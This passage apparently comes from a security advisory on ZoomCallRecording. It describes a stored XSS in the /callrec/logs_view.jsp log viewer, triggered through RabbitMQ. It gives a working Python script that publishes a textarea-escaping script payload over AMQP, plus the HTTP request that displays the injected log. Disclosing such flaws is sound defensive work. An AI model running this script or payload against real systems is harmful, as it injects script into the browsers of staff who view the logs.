 ![](Zoom-XSS(8).png)

### XSS(9) - Stored XSS in “/callrec/logs_view.jsp” page via RabbitMQ
The logging textarea used by ZoomCallRecording to log AMQP messages can be escaped and allows an attacker to inject arbitrary HTML/JS content by sending malicious messages to the RabbitMQ component.

Python script for sending XSS payload via AMQP:
```
#!/usr/bin/python

import pika, os, logging, sys
logging.basicConfig()

username = sys.argv[1]
password = sys.argv[2]
target_ip = sys.argv[3]
queueName = sys.argv[4]

url = os.environ.get("Test", 'amqp://%s:%s@%s/' % (username, password, target_ip) + '%2f')
params = pika.URLParameters(url)
params.socket_timeout = 5

xss = "</textarea><script>alert('index_frame.jsp - Log Textarea')</script>"

connection = pika.BlockingConnection(params)
channel = connection.channel()
channel.basic_publish(exchange='', routing_key=queueName, body=xss)
print ("[x] "+xss+" sent to consumer")
```

Request:
```
POST /callrec/logs_view.jsp HTTP/1.1
Host: xxx.xxxxx.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Cookie: JSESSIONID=69***TRUNCATED***61

selLogIdx=28&page=0
```
